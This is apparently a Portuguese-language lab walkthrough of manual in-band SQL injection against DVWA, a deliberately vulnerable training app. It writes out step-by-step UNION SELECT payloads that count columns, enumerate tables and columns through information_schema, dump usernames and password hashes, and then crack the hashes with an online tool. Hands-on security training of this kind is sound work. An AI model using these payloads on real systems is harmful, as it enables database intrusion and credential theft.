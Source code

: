 # DVWA - SQLI Manual

### **In-Band SQL Injection**

- **O que é SQL Injection:** Antes de entender o **In-Band SQL Injection**, é importante saber o que é uma injeção de SQL. Ela é uma vulnerabilidade de segurança que permite que um invasor insira comandos SQL maliciosos em uma consulta de banco de dados através de um formulário da web ou outro ponto de entrada, geralmente em campos de entrada de texto, mas não só em campos de texto.
- **O que é In-Band SQL Injection:** In-Band SQL Injection é o tipo mais comum de injeção de SQL. Pois nesse tipo de injeção, as informações são mostradas diretamente, diferente do Blind SQLi, que não mostra informações diretamente.

---

### Preparação

- Primeiro precisamos saber qual a abertura de SQLi que existe.
- Primeiro vamos testar se ele aceita sem caracteres especiais.
    
    ![Untitled](DVWA%20-%20SQLI%20Manual/Untitled.png)
    
- Aparentemente não. Então vamos testar com caracteres especiais.
- Vamos colocar um ‘ para ver o que acontece.
    
    ![Untitled](DVWA%20-%20SQLI%20Manual/Untitled%201.png)
    
    ![Untitled](DVWA%20-%20SQLI%20Manual/Untitled%202.png)
    

---

- Então a ' não está sendo filtrada e podemos usá-la daqui para frente.
- Mas para evitar erros, temos que comentar o resto da linha, assim ele executará nossa linha de comando e ignorará o restante dos comandos subsequentes da mesma linha.
- Para isso, podemos usar `--`  e `#` .
- É importante lembrar que deve-se usar um espaço após esses caracteres, caso contrário, eles ficarão colados no próximo comando e causarão erro.
- Então nosso comando ficará entre ' e -- ou #, resultando em `' <comando> --`  ou `' <comando> #` .

---

### Números de colunas

- Como esse método usa o UNION, precisamos saber quantas colunas existem para evitar erros e garantir que as informações venham corretamente.
- Então existem dois modos de determinar quantas colunas existem, usando o UNION ou o ORDER BY
- Isso será tentativa e erro, então é nessa etapa que muitas pessoas acabam recorrendo a ferramentas como:
    - **SQLMap:** Uma ferramenta poderosa e versátil que automatiza a maior parte do processo de teste de SQIi.
    - **jSQL Injection:** Uma ferramenta Java que automatiza a detecção de vulnerabilidades de SQIi em aplicações web.
    - **BBQSQL:** Uma ferramenta especializada em explorar vulnerabilidades de SQIi "blind".
    - **NoSQLMap:** Uma ferramenta similar ao SQLMap, mas focada em bancos de dados NoSQL.
    - **Whitewidow:** Um scanner de vulnerabilidades que inclui testes de SQIi.
    - **DSSS (Damn Small SQLi Scanner):** Um scanner leve e rápido para detectar vulnerabilidades de SQIi.

---

- Então vamos aos testes.
    - `' order by 1 --`
        
        ![Untitled](DVWA%20-%20SQLI%20Manual%203c4d8ceba5314134b2a0a590b3e64ad2/Untitled%203.png)
        
        - Perceba que nada aconteceu, então o número de colunas está correto ou é menor do que o esperado.
    
    ---
    
    - `' union select 1 --`
        
        ![Untitled](DVWA%20-%20SQLI%20Manual%203c4d8ceba5314134b2a0a590b3e64ad2/Untitled%204.png)
        
        - Já com o UNION é diferente, pois ele requer uma quantidade exata.

---

- Continuando com os testes
    - `' order by 2 --`
        - Perceba que nada aconteceu novamente, então o número de colunas está correto ou é menor do que o esperado.
    
    ---
    
    - `' union select 1,2 --`
        
        ![Untitled](DVWA%20-%20SQLI%20Manual%203c4d8ceba5314134b2a0a590b3e64ad2/Untitled%205.png)
        
        - Agora sim, perceba que funcionou
    
    ---
    
- Então, basta aumentar de 1 em 1 a quantidade, ou seja, se for com ORDER BY, o próximo valor será 3; caso seja com UNION SELECT, serão 1, 2, 3 e assim por diante.
- A quantidade de colunas acaba sendo visível.
- Sendo o número 1 a primeira coluna e 2 a segunda coluna.
- Então é só procurar onde estão essas informações.

---

### Pegando nome das tabelas

- Agora podemos substituir os valores dos parâmetros do SELECT por funções do SQL.
- A primeira função que vamos usar é o database().
    - Ela retorna o nome do banco de dados atual.
    - `' UNION SELECT null,database() --`
    
    ![Untitled](DVWA%20-%20SQLI%20Manual/Untitled%206.png)
    
    - Retornou `dvwa`

---

- Agora vamos consultar o nome das tabelas dentro do banco de dados.
    - Agora, no lugar do database(), vamos colocar outra função o `group_concat(table_name)`
        - Essa função, junto com o parâmetro `table_name`, concatena os nomes das tabelas em uma única string.
    
    ---
    
    - Então, para continuar, precisamos do FROM.
        - `FROM information_schema.tables`
            - Quando você usa `FROM information_schema.tables`, está basicamente dizendo ao banco de dados para buscar informações sobre as tabelas do banco de dados no qual você está conectado.
    
    ---
    
    - Ultimo filtro
        - `WHERE table_schema = 'dvwa'`
            - Filtra as tabelas apenas para aquelas que estão no esquema 'dvwa'.
    
    ---
    
    - Comando completo
        - `' UNION SELECT null,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'dvwa' --`
    
    ---
    
    - Resultado
        
        ![Untitled](DVWA%20-%20SQLI%20Manual%203c4d8ceba5314134b2a0a590b3e64ad2/Untitled%207.png)
        

---

### Pegando nome das colunas

- Agora, em vez de solicitar os nomes das tabelas, vamos pedir os nomes das colunas.
- Então, no lugar de `table_name`, será `column_name`.
    - Concatena os nomes das colunas em uma única string.

---

- No lugar de `information_schema.tables`, será `information_schema.columns`.
    - A tabela `information_schema.columns` é uma tabela de metadados que contém informações sobre as colunas presentes no banco de dados

---

- E no lugar de `WHERE table_schema = 'dvwa' --`  será `WHERE table_name = 'users' --` .
    - Filtra as tabelas apenas para aquelas que estão '`users`'.

---

- Comando completo
    - `' UNION SELECT null,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' --`

---

- Resultado
    
    ![Untitled](DVWA%20-%20SQLI%20Manual/Untitled%208.png)
    

---

### Pegando dados

- Agora basta fazer uma query pedindo o que queremos saber.
- Dentro do group_concat, vamos pegar o valor de user e password, e vamos aproveitar para formatar a saída de dados.
    - `' UNION SELECT null,group_concat(user,': ',password SEPARATOR '<br>') FROM users --`
    
    ![Untitled](DVWA%20-%20SQLI%20Manual/Untitled%209.png)
    

---

### Descriptografando senhas

- Um jeito simples de descriptografar algo é com o [CrackStation](https://crackstation.net/).
- Basta colocar as senhas nele e ver o resultado.

![Untitled](DVWA%20-%20SQLI%20Manual/Untitled%2010.png)
